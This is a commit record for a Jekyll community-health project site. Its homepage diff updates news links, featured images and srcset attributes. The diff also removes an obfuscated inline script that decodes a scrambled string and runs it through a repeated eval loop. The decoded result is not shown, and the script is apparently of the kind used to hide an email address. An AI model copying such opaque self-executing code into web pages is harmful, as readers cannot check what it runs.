

Before and after one commit to erikwallace/urban-health-project, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, cut to the strip 0-779 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Homepage updates
Updated featured images and added srcset. Added new annual report and summer summary. Other updates.

```diff
--- a/index.html
+++ b/index.html
@@ -38,31 +38,9 @@
   <sidebar class="gd-UpdatesNews" role="complementary">
     <h4>Updates / News</h4>
     <ul class="ls-Stacked">
-      <li><a href="{{site.baseurl}}/downloads/2019-Summer-Summary.pdf">Congratulations on a successful summer! Check out our {{page.year}} summer update</a></li>
-      <li><a href="{{site.baseurl}}/downloads/Enquirer_Good_Meds.pdf">Read the &lsquo;Good Meds&rsquo; Enquirer Article (PDF)</a></li>
-      <li><a href="{{site.baseurl}}/downloads/2019-Annual-Report.pdf">Download our 2018/2019 Annual Report</a></li>
-      <script type="text/javascript">
-      //<![CDATA[
-      <!--
-      var x="function f(x){var i,o=\"\",l=x.length;for(i=0;i<l;i+=2) {if(i+1<l)o+=" +
-      "x.charAt(i+1);try{o+=x.charAt(i);}catch(e){}}return o;}f(\"ufcnitnof x({)av" +
-      " r,i=o\\\"\\\"o,=l.xelgnhtl,o=;lhwli(e.xhcraoCedtAl(1/)3=!29{)rt{y+xx=l;=+;" +
-      "lc}tahce({)}}of(r=i-l;1>i0=i;--{)+ox=c.ahAr(t)i};erutnro s.buts(r,0lo;)f}\\" +
-      "\"(0)10\\\\,H\\\"JBMY4P00\\\\\\\\00\\\\0D\\\\WV\\\\tH\\\\6Z02\\\\\\\\03\\\\" +
-      "0r\\\\\\\\\\\\13\\\\0r\\\\\\\\\\\\\\\\t>\\\\}314\\\\03\\\\02\\\\\\\\17\\\\0" +
-      "y\\\\!=<367q ;?=nk9.$4!02\\\\\\\\gx30\\\\03\\\\/7V'rM\\\\\\\\16\\\\06\\\\03" +
-      "\\\\\\\\\\\\H\\\\\\\\L\\\\SCGYWDr_\\\\\\\\M[FH_I7Z02\\\\\\\\IJnF\\\\\\\\KOM" +
-      "@^x7i17\\\\\\\\p~jv~gxawr~yln77\\\\1y\\\\e1d}gn&h?_eg14\\\\05\\\\02\\\\\\\\" +
-      "\\\\\\\\\\\\\\\\32\\\\0F\\\\1G02\\\\\\\\33\\\\0J\\\\\\\\W\\\\\\\\5\\\\03\\\\"+
-      "\\\\36\\\\04\\\\02\\\\\\\\04\\\\06\\\\00\\\\\\\\34\\\\02\\\\03\\\\\\\\7B03\\"+
-      "\\\\\\04\\\\04\\\\01\\\\\\\\05\\\\02\\\\02\\\\\\\\05\\\\0n\\\\\\\\\\\\00\\\\"+
-      "0\\\\\\\\(\\\"}fo;n uret}r);+)y+^(i)t(eAodrCha.c(xdeCoarChomfrg.intr=So+7;1" +
-      "2%=;y=2y*))+y00(1i>f({i+)i+l;i<0;i=r(foh;gten.l=x,l\\\"\\\\\\\"\\\\o=i,r va" +
-      "){,y(x fontincfu)\\\"\")"                                                    ;
-      while(x=eval(x));
-      //-->
-      //]]>
-      </script>
+      <li><a href="{{site.baseurl}}/downloads/2020-Summer-Summary.pdf">Congratulations on a successful summer! Check out our {{page.year}} summer update</a></li>
+      <li><a href="https://www.uc.edu/news/articles/2020/07/n20932716.html">Read the Article - UC medical students to host 'Committed to Community'</a></li>
+      <li><a href="{{site.baseurl}}/downloads/2020-Annual-Report.pdf">Download our 2019/2020 Annual Report</a></li>
     </ul>
   </sidebar>
 </div><!--  /.gd-IntroWrapper -->
@@ -73,7 +51,7 @@
   <div class="fe-Item  fe-Item_WhoServe">
     <a href="{{site.baseurl}}/sites.html">
       <div class="fe-Content">
-        <img src="{{site.baseurl}}/imgs/features/who-do-we-serve.jpg" alt="The Phoenix restaurant in Downtown Cincinnati" />
+        <img src="{{site.baseurl}}/imgs/features/anna-with-kids.jpg" srcset="{{site.baseurl}}/imgs/features/anna-with-kids@2x.jpg, {{site.baseurl}}/imgs/features/anna-with-kids@2x.jpg 2x" alt="Anna Edwards with children at Lighthouse Mecum House" />
         <h2 class="fe-Title">Who Do We Serve?</h2>
         <p class="fe-Description">Learn about all of the sites we work with</p>
       </div>
@@ -83,7 +61,7 @@
   <div class="fe-Item  fe-Item_SupportMatters">
     <a href="https://foundation.uc.edu/donate?id=693a5ba0-791b-4c01-9b41-0f506f4f8a02">
       <div class="fe-Content">
-        <img src="{{site.baseurl}}/imgs/features/your-support-matters.jpg" alt="The Phoenix restaurant in Downtown Cincinnati" />
+        <img src="{{site.baseurl}}/imgs/features/tessa-with-supervisor.jpg" srcset="{{site.baseurl}}/imgs/features/tessa-with-supervisor@2x.jpg, {{site.baseurl}}/imgs/features/tessa-with-supervisor@2x.jpg 2x" alt="Tessa Keiser with her supervisor at First Step Home" />
         <h2 class="fe-Title">Your Support Matters</h2>
         <p class="fe-Description">Make a donation today</p>
       </div>
@@ -91,9 +69,9 @@
   </div>
 
   <div class="fe-Item  fe-Item_ReflectionExperience">
-    <a href="{{site.baseurl}}/sites/senior_link/senior_link_2013.html">
+    <a href="https://youtu.be/M7-UOI-2evE">
       <div class="fe-Content">
-        <img src="{{site.baseurl}}/imgs/features/share-experience-andrea-sattler.jpg" alt="The Phoenix restaurant in Downtown Cincinnati" />
+        <img src="{{site.baseurl}}/imgs/features/jacob-andrea-gardening.jpg" srcset="{{site.baseurl}}/imgs/features/jacob-andrea-gardening@2x.jpg, {{site.baseurl}}/imgs/features/jacob-andrea-gardening@2x.jpg 2x" alt="Andrea Oliver and Jacob Waldruff working for Lighthouse New Beginnings and Lighthouse Youth Development" />
         <h2 class="fe-Title">Share in the Experience</h2>
         <p class="fe-Description">Read Andrea's reflection from Senior Link</p>
       </div>
```
Also changed, not shown: imgs/features/anna-with-kids.jpg (added), imgs/features/anna-with-kids@2x.jpg (added), imgs/features/jacob-andrea-gardening.jpg (added), imgs/features/jacob-andrea-gardening@2x.jpg (added), imgs/features/tessa-with-supervisor.jpg (added), imgs/features/tessa-with-supervisor@2x.jpg (added), 13 other files.
